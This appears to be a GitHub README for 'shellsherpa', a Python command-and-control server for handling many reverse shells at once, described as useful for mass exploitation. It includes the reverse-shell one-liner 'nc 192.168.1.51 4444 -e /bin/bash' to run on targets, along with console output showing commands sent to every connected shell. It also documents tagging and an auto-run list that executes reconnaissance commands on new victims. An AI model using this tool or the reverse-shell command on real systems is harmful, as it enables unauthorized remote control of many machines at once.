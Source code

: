 # shellsherpa
A multi-client server for managing and mass tasking of simple socket reverse shells (nc/ncat/etc)

Useful when doing mass exploitation

```
usage: shellsherpa.py [-h] [--out OUT] port

Manage shells

positional arguments:
  port        Port to listen on.

optional arguments:
  -h, --help  show this help message and exit
  --out OUT   Directory where to put output
```

Standard example (no output directory) to listen on 4444:
```
python3 shellsherpa.py 4444
-+- ShellSherpa -+-

> help

Documented commands (type help <topic>):
========================================
addtag      exit  removetag  sessions  settagautos
disconnect  help  run        settag    tags       
```

Then run any standard TCP shell on the target(s):
```
nc 192.168.1.51 4444 -e /bin/bash
```

Running commands:
```
...
> Connection: ('192.168.1.189', 60498)

> run * id

[0xc6wk4j - 192.168.1.189]: id.20200513202043
 uid=1000(bob) gid=1000(bob) groups=1000(bob)...
 
 >
```

Tags are used to distinguish between shells and allow the tasking of groups. Using `settag` to auto tag new shells with a given tag. Each shell automatically gets a tag with a UUID and its public IP:

```
## We already had a callback from 192.168.1.189
...
> settag bleh  # all new connections will get this tag
bleh> Connection: ('192.168.1.190', 60476)

bleh> sessions
+--------------+---------------+-------------------------------+
| Session UUID |       IP      |              Tags             |
+--------------+---------------+-------------------------------+
|   04x5fslb   | 192.168.1.189 |    04x5fslb, 192.168.1.189    |
|   0xc6wk4j   | 192.168.1.190 | 0xc6wk4j, 192.168.1.190, bleh | # Note how the new callback get the 'bleh' tag
+--------------+---------------+-------------------------------+
```

Use addtag and removetag to add or remove tags to groups/individual shells (by using their tags!). `*` can be used to selecting all shells.

settagautos will recieve a line seperated list of shell commands to run automatically on shells with a given tag. Its done this way if you will be shifting your default tag. 

Example file:
```
id
whoami
uname -a
```
